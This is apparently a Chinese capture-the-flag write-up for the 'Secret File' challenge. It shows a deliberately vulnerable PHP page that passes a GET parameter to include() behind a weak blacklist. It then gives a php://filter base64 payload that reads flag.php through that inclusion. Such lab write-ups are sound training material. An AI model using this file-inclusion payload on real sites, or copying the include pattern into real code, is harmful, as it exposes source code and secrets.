 # [极客大挑战 2019]Secret File

## 知识点

`php代码审计`

`php伪协议`

## 解题

找到代码审计点

```
http://76976e53-a4e7-4314-9cbe-bedaeeb61700.node4.buuoj.cn:81/secr3t.php
```

```php
<html>
    <title>secret</title>
    <meta charset="UTF-8">
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    $file=$_GET['file'];
    if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
        echo "Oh no!";
        exit();
    }
    include($file); 
//flag放在了flag.php里
?>
</html>
```

发现没有过滤`php://filter`

直接使用`php://filter`读取`flag.php`即可获取`flag`

```
secr3t.php?file=php://filter/convert.base64-encode/resource=flag.php
```

